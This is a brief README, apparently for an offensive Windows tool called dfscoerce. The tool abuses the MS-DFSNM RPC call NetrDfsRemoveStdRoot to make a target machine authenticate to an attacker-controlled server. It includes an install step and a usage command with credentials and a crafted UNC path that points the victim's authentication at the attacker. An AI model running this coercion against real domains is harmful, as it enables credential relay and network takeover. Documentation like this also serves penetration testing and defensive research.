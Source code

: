 # dfscoerce

A Windows authentication coercion tool that leverages the MS-DFSNM protocol's `NetrDfsRemoveStdRoot` RPC call to force target machines to authenticate to an attacker-controlled server.
dfscoerce tool. 

## Install
`pipx install .`. 

## Usage Example
`dfscoerce 'DOMAIN.LOCAL/USER:PASSWORD@COMPUTER.DOMAIN.LOCAL' \\\\COMPUTER1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA\\path`
